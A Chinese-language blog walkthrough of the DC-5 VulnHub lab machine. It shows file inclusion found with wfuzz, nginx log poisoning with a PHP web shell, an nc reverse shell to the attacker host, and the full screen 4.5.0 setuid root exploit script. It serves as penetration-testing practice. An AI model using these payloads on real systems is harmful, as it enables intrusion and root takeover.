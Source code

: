 ```yaml
---
title: DC_5靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_11.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false


---
```


# DC_5靶机渗透测试



[参考链接1](https://www.cnblogs.com/wzy-ustc/p/14606475.html)

[参考链接2](https://blog.mzfr.me/vulnhub-writeups/2019-07-09-DC5)



## 信息收集

- 首先扫描出靶机， IP为192.168.0.149

![image-20210701112058852](http://cdn.mxrblog.cn/image-20210701112058852.png)

- 扫描靶机开放端口, 开放80端口

![image-20210701112246220](http://cdn.mxrblog.cn/image-20210701112246220.png)

- 浏览器打开192.168.0.149

![image-20210701112421282](http://cdn.mxrblog.cn/image-20210701112421282.png)

- 用dirb和dirbuster分别进行目录扫描

![image-20210701114840558](http://cdn.mxrblog.cn/image-20210701114840558.png)

- 啥也没有， 尝试在contact us页面提交一些内容

![image-20210701115231365](http://cdn.mxrblog.cn/image-20210701115231365.png)

- 都能传东西了。可能存在一些文件包含漏洞吧，利用brupsuite查看信息

![image-20210701125839801](http://cdn.mxrblog.cn/image-20210701125839801.png)

- 寻找可以包含参数的文件变量名——使用工具wfuzz

```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.0.149/thankyou.php?FUZZ=/etc/passwd  //FUZZ后面接被包含的文件
```

- 可以拿到与众不同的file文件，由于参数传进去了，自然就不一样了

![image-20210701150356952](http://cdn.mxrblog.cn/image-20210701150356952.png)

- 之前通过扫描知道了该靶机的网络服务器是nginx，Google搜素后发现nginx的日志文件可以在其配置文件/etc/nginx/nginx.config中找到, 于是我们修改file的参数为配置文件路径

![image-20210702002453469](http://cdn.mxrblog.cn/image-20210702002453469.png)

- 发现两个可以被利用的配置文件：

```
access_log:   /var/log/nginx/access.log
error_log:    /var/log/nginx/error.log
```

- 我们利用配置文件access_log， 在配置文件中写入木马：

```
<?php system($_GET['shell']);?>  //shell为参数可以被任意的修改

/var/log/nginx/access.log&shell=nc -e /bin/sh 192.168.0.130 4444  //nc向攻击机器·上发送shell
```

![image-20210702011941956](http://cdn.mxrblog.cn/image-20210702011941956.png)



- 在攻击机器上监听本地4444端口

![image-20210702012135051](http://cdn.mxrblog.cn/image-20210702012135051.png)

- 使用python脚本获取交互式shell

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20210702012623598](http://cdn.mxrblog.cn/image-20210702012623598.png)

- 发现我们只是普通用户，无法查看/home/dc中的内容，的想办法来提权
- 先查看可以提权的文件：

```
find / -perm -u=s -type f 2> /dev/null
```

![image-20210702013130321](http://cdn.mxrblog.cn/image-20210702013130321.png)

- 搜索一下screen-4.5.0，发现存在漏洞， 并找到所在的路径

![image-20210702015034118](http://cdn.mxrblog.cn/image-20210702015034118.png)

- 查看41154.sh

![image-20210702015722294](http://cdn.mxrblog.cn/image-20210702015722294.png)

- 按照上面说的一步一步来

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell 

```

- 首先在攻击机器上先编译好，然后再在攻击机器上开启http服务，将编辑好的文件传到靶机
- 在宿主机上分别执行以下命令：

```
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
```

- 得到文件后在文件所在目录开启http服务，如果不在文件所在的地方开启服务就会导致靶机显示找不到文件

```
python -m SimpleHTTPServer 9000
```

- 在靶机的/tmp文件夹使用wget下载文件，注意一定要在/tmp目录下载，一方面待会的行动会从/tmp目录下读取，更重要的是在/www/html目录下，无法下载文件，会显示无权限写入文件，这是因为/www/html目录的写入是需要root用户权限的

![image-20210702034418648](http://cdn.mxrblog.cn/image-20210702034418648.png)

- 让我们来执行接下来的步骤

![image-20210702034616197](http://cdn.mxrblog.cn/image-20210702034616197.png)

- 得到权限后进入root目录下

![image-20210702034740792](http://cdn.mxrblog.cn/image-20210702034740792.png)



